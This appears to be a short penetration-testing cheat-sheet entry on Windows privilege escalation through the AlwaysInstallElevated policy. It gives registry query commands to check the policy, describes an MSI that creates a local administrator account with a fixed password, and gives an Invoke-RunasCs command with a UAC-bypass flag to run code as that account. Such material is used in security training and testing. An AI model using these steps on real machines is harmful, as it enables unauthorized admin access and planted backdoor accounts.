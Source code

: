 ### Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use `[Invoke-RunasCs]([url](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1))` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
